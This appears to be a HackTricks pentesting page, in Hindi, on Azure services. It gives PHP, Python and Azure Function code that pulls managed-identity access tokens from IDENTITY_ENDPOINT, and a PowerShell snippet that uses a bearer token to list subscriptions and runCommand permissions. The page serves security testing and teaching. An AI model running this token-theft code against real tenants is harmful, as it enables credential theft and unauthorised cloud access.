 # Az - Services

{{#include ../../../banners/hacktricks-training.md}}

## Portals

आप **Microsoft portals की सूची** [**https://msportals.io/**](https://msportals.io/) पर पा सकते हैं।

### Raw requests

#### Azure API via Powershell

**IDENTITY_HEADER** और **IDENTITY_ENDPOINT** से **access_token** प्राप्त करें: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`।

फिर **subscription ID** और अधिक प्राप्त करने के लिए Azure REST API को क्वेरी करें।
```bash
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API via Python Version
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
या एक Python फ़ंक्शन के अंदर:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## सेवाओं की सूची

**इस अनुभाग के पृष्ठ Azure सेवा के अनुसार क्रमबद्ध हैं। वहाँ आप सेवा के बारे में जानकारी (यह कैसे काम करता है और क्षमताएँ) और प्रत्येक सेवा को सूचीबद्ध करने के तरीके के बारे में भी जानकारी प्राप्त कर सकेंगे।**

{{#include ../../../banners/hacktricks-training.md}}
